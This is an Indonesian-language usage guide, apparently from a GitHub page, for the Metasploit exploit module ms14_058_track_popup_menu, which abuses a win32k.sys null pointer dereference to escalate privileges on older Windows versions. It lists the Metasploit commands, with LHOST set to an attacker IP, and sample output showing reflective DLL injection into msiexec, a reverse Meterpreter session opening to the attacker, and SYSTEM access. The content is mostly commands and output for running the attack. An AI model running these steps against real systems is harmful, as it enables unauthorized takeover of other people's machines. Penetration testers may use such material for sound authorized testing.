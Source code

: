 # ms14_058_track_popup_menu

Modul ini mengeksploitasi `Null Pointer Dereference` pada `win32k.sys`. Kerentanan ini dapat dipicu melalui penggunaan fungsi `TrackPopupMenu`. Dalam kondisi tertentu, `null pointer dereference` ini dapat disalahgunakan pada `xxxSendMessageTimeout` untuk mencapai eksekusi kode sewenang-wenang (`arbitrary code execution`).

Modul ini telah berhasil diuji pada:
- `Windows XP SP3`
- `Windows Server 2003 SP2`
- `Windows 7 SP1` (`32-bit` dan `64-bit`)
- `Windows Server 2008` (`32-bit` dan `R2 SP1 64-bit`)

## Penulis
- Unknown
- juan vazquez]
- Spencer McIntyre
- OJ Reeves

## Platform
- `Windows`

## Arsitektur
- `x86`, `x64`

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/ms14_058_track_popup_menu
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] win32k.sys file version: 6.1.7601.17514 branch: 17
[*] Reflectively injecting the exploit DLL and triggering the exploit...
[*] Launching msiexec to host the DLL...
[+] Process 4352 launched.
[*] Reflectively injecting the DLL into 4352...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 192.168.1.53
[*] Meterpreter session 15 opened (192.168.1.11:4444 -> 192.168.1.53:49162) at 2025-05-17 05:58:24 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/ms14_058_track_popup_menu/)
